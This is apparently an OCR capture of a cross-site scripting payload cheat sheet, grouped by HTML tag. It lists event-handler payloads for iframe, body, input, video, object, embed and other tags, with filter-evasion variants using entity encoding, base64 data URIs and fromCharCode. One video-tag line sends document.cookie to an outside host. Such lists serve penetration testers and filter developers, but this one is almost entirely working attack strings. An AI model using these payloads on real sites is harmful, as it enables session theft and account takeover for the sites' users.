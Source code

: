 ```html
<iframe onload=alert(1)>
<iframe onload=&#97&#108&#101&#114&#116&#40&#49&#41>
<iframe srcdoc="<img src=x:x onerror=alert(1)>" />
<iframe onload=location='javascri'.concat('pt:aler','t(1)')>
<iframe onload=location=['java','script:','alert(1)'].join("")>
<iframe src="data:text/html;base64,PHN2Zy9vbmxvYWQ9YWxlcnQoMSk+"></iframe>

body tag
<body onpageshow=alert(1)>
<body/onfocus=alert(1)>
<body/onload=alert(1)>
<body href=x %00 nonafterprint=confirm(document.domain) autofocus>
<body/onload=document.write(String.fromCharCode(60,115,99,114,105,112,116,62,97,108,101,114,116,40,49,41,60,47,115,99,114,105,112,116,62)) >
  
  
input tag
<input autofocus onfocus=alert(1)>
<input type=image src onerror=alert(1)>
<input onblur=alert(1) id=x><input autofocus>
<input onbeforecopy=alert(1) value="XSS" autofocus>
<input/autofocus/onfocus=&#97&#108&#101&#114&#116&#40&#49&#41>
  
a tag
<a onmouseover="alert(1)">link</a>
<a href=# name=xss autofocus onfocus=alert(1)>
<a draggable="true" ondragend="alert(1)">test</a>
<a href="javascript:'\74\163\166\147\40\157\156\154\157\141\144\75\141\154\145\162\164\50\61\51\76'">link</a>
  
video tag
<video onkeypress="alert(1)" contenteditable></video>
<video src=1 onerror=alert(/xss/)>
<video src onloadstart=alert(1)>
<video><source onerror=location=/http:\\domain.tld\page/.source+document.cookie >

button tag
<button onfocus=alert(1) autofocus>
<button ondblclick="alert(1)" autofocus tabindex=1>test</button>
<button onkeyup="alert(1)" contenteditable>test</button>
  
object tag
<object data='data:text/html;base64,PHN2Zy9vbmxvYWQ9YWxlcnQoMSk+'></object>
<object type='text/x-scriptlet' data='http://example.com/xss.html'></object>
  xss.html -> <script>alert(1)</script>
 
embed tag
<embed src="data:text/html;base64,PHN2Zy9vbmxvYWQ9YWxlcnQoMSk+"></embed>
<embed src="javascript:alert(1)">
  
audio tag
<audio src=x onerror=alert(/xss/)>
  
textarea tag
<textarea autofocus onfocus=alert(1)>
  
meter tag
<meter onmouseover=alert(1)></meter>
<meter onmousemove="alert(1)"></meter>

select tag
<select autofocus onfocus=alert(1)>

```